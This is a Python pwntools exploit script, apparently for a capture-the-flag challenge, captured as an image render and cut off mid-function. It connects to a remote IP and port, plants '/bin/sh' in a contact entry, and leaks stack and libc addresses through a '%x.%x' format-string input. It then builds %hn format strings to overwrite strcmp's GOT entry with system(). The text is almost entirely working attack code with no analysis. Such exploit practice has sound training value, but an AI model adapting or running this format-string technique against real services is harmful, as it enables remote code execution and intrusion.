 ```python
from pwn import *

# context.log_level = 'debug'

elf = ELF("contacts")
strcmp_got = elf.got["strcmp"]

def format_string(write_address):
    part1 = write_address & 0xffff
    part2 = (write_address & 0xffff0000) >> 16
    '''
    if part1 > part2:
        tmp = part1
        part1 = part2
        part2 = tmp
    '''
    format_str1 = "%{0}x%1$hn".format(part1)
    format_str2 = "%{0}x%1$hn".format(part2)
    return format_str1, format_str2

def create_contact(r, name, phone, desc):
    r.sendline(str(1))
    r.sendline(name)
    r.sendline(phone)
    r.sendline(str(len(desc)))
    r.sendline(desc)
    r.recvuntil("Menu:")

def edit_contact(r, person, num, change):
    r.sendline(str(3))
    r.sendline(person)
    r.sendline(str(num))
    r.sendline(change)
    r.recvuntil("Menu:")

def display_contacts(r):
    r.sendline(str(4))
    return r.recvuntil("Menu:")

def do_sploit(offset):
    r = remote("54.165.223.128", 2555)
    r.recvuntil(">>>")

    p1 = "AAAA"
    p2 = "BBBB"
    p3 = "CCCC"

    # Create person 1
    create_contact(r, p1, "/bin/sh", "%x.%x")

    leak = display_contacts(r)
    found = leak.index("Description: ") + len("Description: ")
    bin_sh, vfscanf_libc = map(lambda x: int(x, 16), leak[found:found+16].split("."))
    vfscanf_libc -= 17

    print "[+] /bin/sh is @ ", hex(bin_sh), ": [+] _io_vfscanf libc is @ ", hex(vfscanf_libc)

    system_libc = vfscanf_libc + offset
    format1, format2 = format_string(system_libc)

    print "[+] system libc is @ ", hex(system_libc)

    sec_person_desc = bin_sh + 0x30
```